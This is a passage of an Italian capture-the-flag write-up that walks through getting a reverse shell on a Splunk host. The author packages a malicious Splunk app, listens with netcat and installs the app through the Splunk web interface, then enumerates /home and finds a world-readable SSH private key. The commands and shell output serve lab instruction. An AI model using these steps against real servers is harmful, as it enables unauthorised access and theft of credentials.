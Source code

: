 ```
$ tar czvf rev_app.tar.gz rev_app/
```
Avviamo ```netcat``` in listening sul PC
```
$ nc -lvnp 1234
Listening on [0.0.0.0] (family 2, port 1234)
```
Ed installiamo l'app dall'interfaccia web di Splunk
![Splunk admin login](splunk-02.png)

Dopo qualche secondo avremo la nostra shell come utente ```splunk```
```
$ nc -lvnp 1234
Listening on [0.0.0.0] (family 2, port 1234)
Connection from 192.168.56.102 42166 received!
/bin/sh: 0: can't access tty; job control turned off
$ $ $ $ id
uid=999(splunk) gid=999(splunk) groups=999(splunk)
```
Nella ```/home``` notiamo la cartella dell'utente ```merlos``` che ha la dir ```.ssh/``` accessibile ed il file ```id_rsa``` (chiave privata) con permessi read per everyone
```
[ dalla rev shell ]
$ ls -l /home/
total 12
drwxr-xr-x 1 ansible ansible 4096 May 25 09:49 ansible
drwxr-xr-x 5    1001    1001 4096 May 25 11:43 merlos
drwxr-xr-x 1 splunk  splunk  4096 May 25 09:50 splunk
$ ls -la /home/merlos/                    
total 40
drwxr-xr-x 5 1001 1001 4096 May 25 11:43 .
drwxr-xr-x 1 root root 4096 May 25 09:49 ..
lrwxrwxrwx 1 1001 1001    9 May 25 11:43 .bash_history -> /dev/null
-rw-r--r-- 1 1001 1001  220 May 22 08:45 .bash_logout
-rw-r--r-- 1 1001 1001 3771 May 22 08:45 .bashrc
drwx------ 2 1001 1001 4096 May 25 09:10 .cache
drwx------ 3 1001 1001 4096 May 25 09:10 .gnupg
-rw-r--r-- 1 1001 1001  807 May 22 08:45 .profile
drwx---r-x 2 1001 1001 4096 May 25 09:13 .ssh
-r-------- 1 1001 1001   33 May 25 09:46 user.txt
$ ls -l /home/merlos/.ssh/
total 12
-rw-rw-r-- 1 1001 1001  396 May 25 09:13 authorized_keys
-rw----r-x 1 1001 1001 1823 May 25 09:13 id_rsa
-rw-r--r-x 1 1001 1001  396 May 25 09:13 id_rsa.pub
```